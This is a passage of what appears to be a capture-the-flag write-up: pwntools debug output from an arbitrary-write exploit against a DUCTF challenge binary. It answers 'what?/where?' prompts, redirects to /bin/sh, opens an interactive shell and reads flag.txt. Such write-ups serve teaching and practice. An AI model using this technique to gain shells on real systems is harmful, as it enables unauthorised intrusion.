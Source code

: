 ```
    00000009
[*] stdin -> /bin/sh
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    00000000  a9 11 40 00                                         │··@·│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 34 34 00  00                        │4210│744·│·│
    00000009
[*] exit -> main
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0xd bytes:
    b'flag.txt\n'
    b'pwn\n'
flag.txt
pwn
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x25 bytes:
    b'DUCTF{arb1tr4ry_wr1t3_1s_str0ng_www}\n'
DUCTF{arb1tr4ry_wr1t3_1s_str0ng_www}
```
